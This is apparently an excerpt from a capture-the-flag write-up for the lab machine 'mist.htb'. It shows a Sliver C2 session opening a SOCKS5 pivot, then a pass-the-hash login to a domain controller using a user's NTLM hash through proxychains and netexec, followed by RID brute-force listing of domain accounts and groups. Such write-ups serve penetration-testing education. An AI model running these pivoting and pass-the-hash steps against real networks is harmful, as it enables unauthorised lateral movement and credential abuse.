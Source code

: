[*] Started SOCKS5 127.0.0.1 1081  
⚠  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (GRATEFUL_PERCH) > socks5 

 ID   Session ID                             Bind Address     Username   Passwords 
==== ====================================== ================ ========== ===========
  1   52321b04-f9e3-4ade-8877-634f23218555   127.0.0.1:1081 
```

```
└─$ proxychains netexec ldap 192.168.100.100 -u brandon.keywarp -H DB03D6A77A2205BC1D07082740626CC9
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  192.168.100.100:389  ...  OK
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\brandon.keywarp:DB03D6A77A2205BC1D07082740626CC9 
```


```
└─$ proxychains -q netexec smb 192.168.100.100 -u brandon.keywarp -H DB03D6A77A2205BC1D07082740626CC9 --rid-brute
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
SMB         192.168.100.100 445    DC01             [+] mist.htb\brandon.keywarp:DB03D6A77A2205BC1D07082740626CC9 
SMB         192.168.100.100 445    DC01             498: MIST\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.100.100 445    DC01             500: MIST\Administrator (SidTypeUser)
SMB         192.168.100.100 445    DC01             501: MIST\Guest (SidTypeUser)
SMB         192.168.100.100 445    DC01             502: MIST\krbtgt (SidTypeUser)
SMB         192.168.100.100 445    DC01             512: MIST\Domain Admins (SidTypeGroup)
SMB         192.168.100.100 445    DC01             513: MIST\Domain Users (SidTypeGroup)
SMB         192.168.100.100 445    DC01             514: MIST\Domain Guests (SidTypeGroup)
SMB         192.168.100.100 445    DC01             515: MIST\Domain Computers (SidTypeGroup)
SMB         192.168.100.100 445    DC01             516: MIST\Domain Controllers (SidTypeGroup)
SMB         192.168.100.100 445    DC01             517: MIST\Cert Publishers (SidTypeAlias)
SMB         192.168.100.100 445    DC01             518: MIST\Schema Admins (SidTypeGroup)
SMB         192.168.100.100 445    DC01             519: MIST\Enterprise Admins (SidTypeGroup)
SMB         192.168.100.100 445    DC01             520: MIST\Group Policy Creator Owners (SidTypeGroup)
SMB         192.168.100.100 445    DC01             521: MIST\Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.100.100 445    DC01             522: MIST\Cloneable Domain Controllers (SidTypeGroup)
SMB         192.168.100.100 445    DC01             525: MIST\Protected Users (SidTypeGroup)
SMB         192.168.100.100 445    DC01             526: MIST\Key Admins (SidTypeGroup)
SMB         192.168.100.100 445    DC01             527: MIST\Enterprise Key Admins (SidTypeGroup)
SMB         192.168.100.100 445    DC01             553: MIST\RAS and IAS Servers (SidTypeAlias)
SMB         192.168.100.100 445    DC01             571: MIST\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         192.168.100.100 445    DC01             572: MIST\Denied RODC Password Replication Group (SidTypeAlias)
SMB         192.168.100.100 445    DC01             1000: MIST\DC01$ (SidTypeUser)
SMB         192.168.100.100 445    DC01             1101: MIST\DnsAdmins (SidTypeAlias)